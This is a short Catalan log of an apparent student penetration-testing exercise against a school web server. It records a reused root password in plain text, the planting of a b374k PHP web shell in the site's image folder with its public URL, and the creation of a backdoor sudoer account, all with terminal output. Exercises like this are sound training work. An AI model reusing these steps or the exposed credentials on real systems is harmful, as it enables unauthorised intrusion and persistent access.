 La contrasenya de root per SSH és la mateixa que la de l'usuari "adminer" de la base de dades (Bhun@89ble.oient).

**Acció 3:**

Persona --> Cristian
Temps --> 08/03/2023 --> 18:00
Acció --> Pujar una reverse shell
Endpoint --> 192.168.255.26
Resultat --> Hem aconseguit pujar una reverse shell amb èxit.
Output:

Ens connectem al servidor amb les credencials de root que tenim (Bhun@89ble.oient), creem un fitxer nou (hola.php) i enganxem el codi de la següent reverse shell --> https://github.com/backdoorhub/shell-backdoor-list/blob/master/shell/php/b374k.php
```
root@prioritask .../front/img# nano hola.php
root@prioritask .../front/img# stat hola.php 
  File: hola.php
  Size: 189882    	Blocks: 267        IO Block: 131072 regular file
Device: 9eh/158d	Inode: 76056       Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-03-08 17:11:28.734224325 +0000
Modify: 2023-03-08 17:11:16.758133203 +0000
Change: 2023-03-08 17:11:16.758133203 +0000
 Birth: 2023-03-08 17:11:16.758133203 +0000
```
L'hora del servidor és UTC, és una hora menys que la nostra.

He deixat al reverse shell a la següent ruta --> /var/www/front/img/hola.php
Per accedir a ella des de fora --> http://prioritask.daw.institutmontilivi.cat/img/hola.php

**Acció 4:**

Persona --> Cristian
Temps --> 08/03/2023 --> 19:25
Acció --> Crear un usari sudoer
Endpoint --> 192.168.255.26
Resultat --> Hem aconseguit crear un usuari i donar-li permisos de sudoer amb exit. 
Usuari --> cat 
passwd --> cat

Output:

```
root@prioritask .../front/img# adduser cat
Adding user `cat' ...
Adding new group `cat' (1001) ...
Adding new user `cat' (1001) with group `cat' ...
Creating home directory `/home/cat' ...
Copying files from `/etc/skel' ...
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for cat
Enter the new value, or press ENTER for the default
	Full Name []: 
	Room Number []: 
	Work Phone []: 
	Home Phone []: 
	Other []: 
Is the information correct? [Y/n] y
root@prioritask .../front/img# cd
root@prioritask ~# nano /etc/sudoers
root@prioritask ~# cat /etc/sudoers | grep "cat "
cat    ALL=(ALL:ALL) ALL
root@prioritask ~#
```